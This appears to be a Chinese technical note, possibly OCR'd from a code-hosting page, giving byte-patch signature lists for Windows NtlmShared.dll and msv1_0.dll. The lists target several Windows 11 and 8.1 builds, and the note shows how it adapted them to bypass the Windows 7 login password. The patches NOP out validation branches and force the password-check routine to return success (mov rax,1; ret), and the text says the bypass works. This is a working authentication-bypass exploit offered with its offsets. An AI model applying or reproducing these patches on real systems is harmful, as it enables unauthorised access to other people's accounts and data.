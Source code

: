 ```
#
# Signature for Windows 11 x64 [NtlmShared.dll 10.0.20348.887 / 2022-08-04]
A6B,488BCB48FF15B3280000,A7D,0F84B2FAFFFF,A7D,0F85
#
# Signature for Windows 11 x64 [NtlmShared.dll 10.0.22000.1696 / 2023-03-09]
00B,488BCB48FF15E3220000,01D,0F84B2FAFFFF,01D,0F85
#
# Signature for Windows 11 x64 [NtlmShared.dll 10.0.22000.2600 / 2023-11-08]
01B,488BCB48FF15D3220000,02D,0F84B2FAFFFF,02D,0F85
#
# Signature for Windows 11 x64 [NtlmShared.dll 10.0.22000.778 / 2022-06-18]
F8B,488BCB48FF1563230000,F9D,0F84B2FAFFFF,F9D,0F85
#
# Signature for Windows 11 x64 [NtlmShared.dll 10.0.22621.2067 / 2023-07-11]
# Signature for Windows 11 x64 [NtlmShared.dll 10.0.22621.2506 / 2023-10-19]
# Signature for Windows 11 x64 [NtlmShared.dll 10.0.22621.2567 / 2023-10-14]
# FC9,488D4B1048FF152C230000,FDC,0F85C4FAFFFF,FDC,909090909090
# FC9,488D4B1048FF152C230000,1009,0F94C0,1009,0F95C0
018,488B9C24F0000000,009,0F94C0,009,83C801
```



# win7绕密

**win7的unlock脚本没有内置，但是发现win7和win8一样用的是msv1_0.dll**

所以直接在win8的unlock脚本修改

修改方法 直接在msvppasswordvalidate..入口修改为mov rax,0x1和retn

如下

![image-20240329151720358](https://typora-1321221957.cos.ap-shanghai.myqcloud.com/image1/202403291532273.png)

可以成功绕密

但是因为只有本机msv1_0.dll，不同版本偏移不同，仍需适配。

详细脚本：

```
# unlock signatures for Windows 8.1
# syntax: see signature_info.txt for more information.
#
#
# signature for Windows 8.1 x64 [msv1_0.dll (signed on: 2014-10-29)]
EE0,FF1542A4,EE9,0F854688,EE9,909090909090
#
# signature for Windows 8.1 x64 [msv1_0.dll (signed on: 2015-10-30)]
B60,FF15C207,B69,0F85CEBC,B69,909090909090
#
# signature for Windows 8.1 x64 [msv1_0.dll (signed on: 2016-03-16)]
F00,FF152204,F09,0F85B2B9,F09,909090909090
D6E,49894F08,D14,48895C2408555657,D14,48C7C001000000C3
```
